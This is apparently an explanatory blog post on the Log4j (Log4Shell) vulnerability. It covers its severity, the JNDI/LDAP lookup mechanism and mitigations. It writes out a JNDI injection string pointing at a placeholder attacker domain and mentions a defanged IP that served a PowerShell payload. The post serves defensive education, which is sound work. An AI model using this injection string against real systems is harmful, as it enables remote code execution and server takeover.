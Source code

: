 ```yaml
---
layout: post
title: Log4j Vulnerability
tags: [vuln]
---
```

CVE-2021-44228 - [NIST on National Vulnerability Database (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Seriousness of a vulnerability is viewed with two factors: 
1. the sheer number of systems that are vulnerable, and 
2. the ease with which an attacker can compromise a network

The vulnerability is associated with the user activity logger known as Log4J - a logging library freely distributed by the Apache Software Foundation. A security researcher working for Alibaba, Chen Zhaojun, first discovered the vulnerability and reported it to Apache on November 24, 2021 and since Dec 2021, Log4j was considered as a serious threat to come down the pipe in recent years. 

## What is Log4j and how impactful is the vulnerablity?
Log4j is a very popular Java library that has been around since 2001 and is used by countless pieces of software to log activity and error messages. Log4j will log messages in software and scan them for errors. The logging capabilities allow it to communicate with other internal functions on systems, such as directory services. This creates the opening for the vulnerability where remote code executions (RCE) allow an attacker to execute arbitrary code on a remote device.

Java is implemented across a wide spread range of digital products including cloud solutions, web servers, and apps making each of these products vulnerable to exploitation through the Log4Shell vulnerability. Hence, any Java software running systems can be impacted which is *a lot* of systems.

Because this security flaw is so widespread and most organizations are unaware that they're impacted, an exploitation frenzy is currently underway in the cybercriminal world. Security researchers have identified approximately **10 million Log4Shell exploitations attempts every hour**. Retail Industry is the most hard hit, followed by technology, financial services, manufacturing services and healthcare providers.

The [vulnerability CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) has been given the Critical rating and the highest threat score possible (10.0) by the Common Vulnerability Scoring System (CVSS), the industry standard for at-a-glance assessments of the severity of security vulnerabilities.

## How it's exploited
Lightweight Directory Acess Protocol (LDAP) is a open-source application protocol that allows apps to access and authenticate specific user info across directory services. Employees need to regularly access usernames, passwords, email addresses, endpoints, and printers to fulfill their daily tasks. Such information is stored on company directories and LDAP is the protocol that efficiently connects users and applications to this information.

LDAP maps usernames to passwords, the protocol to authenticate users. Thus allows single sign-on (SSO), where users need to sign in only once to access all protected files and applications.

The vulnerable Log4j library, when passed a specially crafted string, will call out to an LDAP server, download the code hosted in the LDAP directory, and then execute that code. 

The vulnerability occurs due to a lack of sanitization in the lookup method used in the log4j library. An attacker can leverage JNDI (Java Naming and Directory Interface) to perform a request to a remote malicious resource as follows: 
`==${jndi:ldap://[attacker_domain]/file}==`

Using different protocols such as ldap, rmi and commands like upper/ lower, an attacker can create multiple attack string combinations. In addition, many obfuscation techniques are observed to avoid detection:

![](../../../assets/images/log4j/exploit_variants.png)

This allows cybercriminals to create a malicious LDAP server that stores code designed to take-over any server where it is executed, and then send applications/databases/APIs the string that points to their code.

The primary attack is to feed messages to Log4j that instruct the system to download malicious powershell script (018h4xuvxe) and execute malware from a remote server, which then grants the attacker greater access to the victim’s system.

![](../../../assets/images/log4j/Log4j.png)

The IP 2.56.59[.]123 that contains the link for payload by HTTP request downloads the paylaod and executes the powershell script. Malware script can be written with persistence functionalities to maintain access even if the system restarts. 

## Safety Measures
1. Quickest way to mitigate is to update all instances of Log4j to the latest version - Log4j 2.17.x and latest version available
2. Utilise custom built Log4j Vulnerability scanners made by numerous popular and trusted security vendors from the Open Source - like CISA, Huntress, Arctic Wolf, CrowdStrike, Amazon Inspector & AWS, etc.,
3. Disable JNDI - A design flaw in the JNDI Lookup plugin is primarily to blame for this critical vulnerability. JNDI facilitates code execution based on data found in the log, data that can easily be manipulated since its accepted by the logger without sanitation.
4. Update all firewall and IPS and use NGFW
5. Implement MFA